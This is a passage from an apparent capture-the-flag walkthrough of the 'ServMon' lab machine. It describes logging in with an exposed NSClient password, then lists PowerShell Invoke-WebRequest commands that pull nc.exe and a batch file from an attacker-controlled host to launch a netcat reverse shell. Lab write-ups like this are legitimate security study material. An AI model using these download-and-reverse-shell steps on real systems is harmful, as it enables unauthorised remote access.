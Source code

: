 ![](images-servmon/22.png)

We were successfully able to login through this site by using the password we got from NSClient password exposure. 

**Commands:**
- `cat Z3R0x30.bat`
- `python3 -m http.server`

![](images-servmon/24.png)

We have netcat executable and a bat executable which will execute a netcat reverse shell in our Windows target to our machine.

**Commands:**
- `powershell`
- `Invoke-WebRequest -Uri http://10.10.14.12:8000/nc.exe -OutFile nc.exe`
- `Invoke-WebRequest -Uri http://10.10.14.12:8000/Z3R0x30.bat -OutFile Z3R0x30.bat`
